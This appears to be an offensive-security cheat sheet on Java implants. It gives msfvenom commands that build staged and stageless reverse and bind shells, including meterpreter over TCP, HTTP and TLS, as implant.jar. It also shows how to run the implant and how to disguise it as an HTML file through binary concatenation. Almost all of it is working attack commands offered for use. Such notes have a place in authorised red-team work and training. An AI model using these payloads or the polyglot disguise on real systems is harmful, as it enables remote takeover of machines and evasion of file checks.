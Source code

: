 # Java

## 01 - Java Implants

### 1.1 - Reverse Shells

#### 1.1.1 - TCP

Staged reverse shell.

```
$ msfvenom -p java/shell/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

Stageless reverse shell.

```
$ msfvenom -p java/shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

#### 1.1.2 - HTTP

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

#### 1.1.3 - HTTP via TLS

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_https handlersslcert=[/path/to/certificate.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

### 1.2 - Bind Shells

Staged bind shell.

```
$ msfvenom -p java/shell/bind_tcp lport=<PORT> [RHOST=<target_IP>] -f raw -o implant.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/bind_tcp lport=<PORT> [rhost=<target_IP>] -f raw -o implant.jar
```

## 02 - Execute Implant

> [!TIP]
> On windows, you can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the implant especially when the target is windows.

```
> java -jar implant.jar
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.jar` implant.

Bind the binary files together.

```
C:\> copy /y /b filename.html+implant.jar hidden_implant.html
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.html+implant.jar hidden_implant.html
```

Then execute it

```
C:\> java.exe -jar hidden_implant.html
```

---
## References

### Source Repositories

- [deepinstinct: JAR-Polyglot-POC](https://github.com/deepinstinct/JAR-Polyglot-POC)